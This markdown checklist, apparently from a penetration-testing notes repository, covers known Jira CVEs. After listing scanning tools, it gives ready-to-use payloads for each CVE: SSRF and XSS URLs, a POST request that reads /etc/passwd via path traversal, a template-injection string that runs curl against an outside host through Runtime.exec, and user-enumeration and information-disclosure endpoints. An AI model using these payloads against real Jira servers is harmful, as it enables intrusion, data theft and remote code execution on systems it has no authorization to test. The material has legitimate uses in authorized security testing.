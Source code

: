 ## Jira Vulnerability
```
https://github.com/netspooky/jLoot
https://github.com/0x48piraj/Jiraffe
https://github.com/bcoles/jira_scan
https://github.com/MayankPandey01/Jira-Lens
```
## Nuclie Template 
[ ] cve-2017-9506 (ssrf)
```
Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-url?consumerUri=<ssrf payload>
```
[ ] cve-2018-20824 (xss)
```
Navigate to <JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
[ ] cve-2019-8451 (ssrf)
```
Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```
[ ] cve-2019-8449 (user info disclosure)
```
Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
[ ] cve-2019-8442 (sen info disc)
```
Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/ maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
Observe that the pom.xml file is accessible.
```
[ ] cve-2019-3403 (username enum)
```
Navigate to <Jira_URL>/rest/api/2/user/ picker?query=<user_name_here>
Observe the difference in response when valid vs. invalid user is queried.
```
[ ] cve-2019-3402 (xss)
```
Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
Observe that the payload is getting executed.
```
[ ] cve-2019-3396 (path traversal, rce)
```
1. Try Below POST Request with the JIRA Target
2. POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_ 64; rv:60.0) Gecko/20100101 Firefox/60.0 Referer: {{Hostname}}
Content-Length: 168
Connection: close <give an enter and remove this comment>
{"contentId":"786457","macro":{" name":"widget","body":"","params":{"url":" https://www.viddler.com/v/23464dc5"," width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```
[ ] cve-2019-11581 (template inj)
```
Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()
```
[ ] cve-2020-14179 (info disclosure)
```
Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
It leaks information about custom fields, custom SLA, etc.
```
